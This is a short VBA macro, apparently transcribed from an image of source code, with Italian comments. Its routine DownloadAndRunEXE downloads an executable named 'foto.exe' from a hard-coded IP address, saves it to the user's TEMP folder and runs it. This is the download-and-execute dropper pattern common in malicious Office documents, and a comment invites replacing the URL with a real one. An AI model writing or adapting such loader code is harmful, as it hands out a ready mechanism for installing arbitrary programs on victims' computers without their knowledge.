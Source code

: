 Sub DownloadAndRunEXE()
    Dim url As String
    Dim filePath As String
    Dim http As Object
    Dim fileNum As Integer
    Dim fileData() As Byte

    ' URL del file EXE da scaricare
    url = "http://192.168.1.56/foto.exe" ' Sostituisci con l'URL reale

    ' Percorso dove salvare il file
    filePath = Environ("TEMP") & "\foto.exe" ' Salva nel percorso temporaneo
    
    MsgBox Environ("TEMP")

    ' Crea un oggetto XMLHTTP per scaricare il file
    Set http = CreateObject("MSXML2.XMLHTTP")
    http.Open "GET", url, False
    http.send

    ' Controlla se la richiesta è andata a buon fine
    If http.Status = 200 Then
        ' Ottieni i dati del file come array di byte
        fileData = http.responseBody
        
        ' Scrivi i dati del file
        fileNum = FreeFile
        Open filePath For Binary Access Write As #fileNum
        Put #fileNum, 1, fileData
        Close #fileNum
        
        ' Controlla se il file esiste prima di eseguirlo
        If Dir(filePath) <> "" Then
            MsgBox ("ok")
            Shell filePath, vbNormalFocus
            MsgBox ("fine exe")
        Else
            MsgBox "Il file non esiste: " & filePath
        End If
        
    Else
        MsgBox "Errore nel download del file: " & http.Status
    End If

    ' Pulisci
    Set http = Nothing
End Sub
